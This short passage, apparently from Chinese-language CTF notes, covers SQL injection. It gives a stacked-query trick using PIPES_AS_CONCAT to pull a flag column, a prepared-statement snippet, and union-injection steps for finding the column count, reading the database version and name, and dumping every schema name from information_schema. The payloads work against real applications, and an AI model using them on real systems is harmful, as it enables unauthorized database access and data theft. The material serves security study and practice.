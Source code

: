 - 查看数据表Flag所有列内容，且添加一个由列flag的值与1拼接/异或后生成的新列获取flag值，视不同sql而不同

```sql
# *,1
select *,1||flag from Flag;
+----+------+-----------+
| id |  x   | 1 || x    |
+----+------+-----------+
|  1 |  abc | 1||abc    |
|  2 |  xyz | 1||xyz    |
+----+------+-----------+
```

- 修改||为拼接，将返回1flag{xxx}

```sql
# 1;set sql_mode=PIPES_AS_CONCAT;select 1
select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag;
```



**预处理语句**

```php
$stmt = $conn->prepare("SELECT ? FROM Flag");
$stmt->bind_param("s", $post['query']);
$stmt->execute();
```



#### 联合注入

**验证查询返回列**

- union select

```mysql
UNION SELECT 1, 2 # 报错: The used SELECT statements have a different number of columns
UNION SELECT 1, 2, 3 # 一个一个试出原始查询语句返回列数, 成功则1,2,3将填入相应回显字段中
```

- order by
- group by

```sql
group by 3
order by 3 # 更改数字，表示以第几列进行排序
# 报错: Unknown column '3' in 'order clause' 则表示有2列字段数
```

**基础信息**

```sql
version() # 数据库版本信息
database() # 数据库名
```

**爆破全部数据库**

```sql
union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```
